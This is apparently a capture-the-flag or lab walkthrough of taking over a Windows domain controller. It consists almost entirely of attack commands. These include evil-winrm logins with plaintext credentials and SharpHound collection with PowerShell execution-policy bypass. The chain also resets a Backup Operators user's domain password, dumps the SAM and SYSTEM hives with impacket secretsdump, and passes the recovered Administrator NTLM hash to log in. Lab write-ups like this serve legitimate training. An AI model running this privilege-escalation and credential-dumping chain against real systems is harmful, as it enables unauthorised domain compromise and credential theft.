


# DC01

## Login with creds
```bash
evil-winrm -i 192.168.158.158 -u 'z.thomas' -p '^1+>pdRLwyct]j,CYmyi'

#Grab Local flag
# Found new users:
d.chambers
svc_mssql$
```

## Went back to CLIENT02 and run SharpHound.ps1

```bash
#Transfered File over
# Powershell
powershell -ep bypass

# Import module
Import-Module .\SharpHound.ps1

# Collect
Invoke-BloodHound -CollectionMethod All

# Transfer File over and run bloodhound
```



## Change user d.chambers password

```bash
#d.cjambers is apart of Backup Operators. It is a built-in Windows group that has SeBackupPrivilege and SeRestorePrivilege by default. Those privileges allow reading ANY file on the system regardless of permissions — including the SAM and SYSTEM hives.

#According to bloodhound:
net user dfm.a Password123! /domain

#Adjusted
net user d.chambers Password123! /domain
```



## Log into d.chambers:Password123!
```bash
evil-winrm -i 192.168.158.158 -u 'd.chambers' -p 'Password123!'
```

## Download SAM & SYSTEM

```bash
reg.exe save hklm\sam sam
#And
reg.exe save hklm\system system

## Use Impacket to reveal secrets

python3 ~/impacket-latest/examples/secretsdump.py -sam ~/tools/File\ Transfer/sam -system ~/tools/File\ Transfer/system LOCAL

# Results
Administrator:500:aad3b435b51404eeaad3b435b51404ee:650836aac5e819c6afb991606f63f5c3:::
```

## Log into Administrator via Evil-WinRM
```bash
evil-winrm -i 192.168.158.158 -u 'Administrator' -H '650836aac5e819c6afb991606f63f5c3'

# Grab Flag
```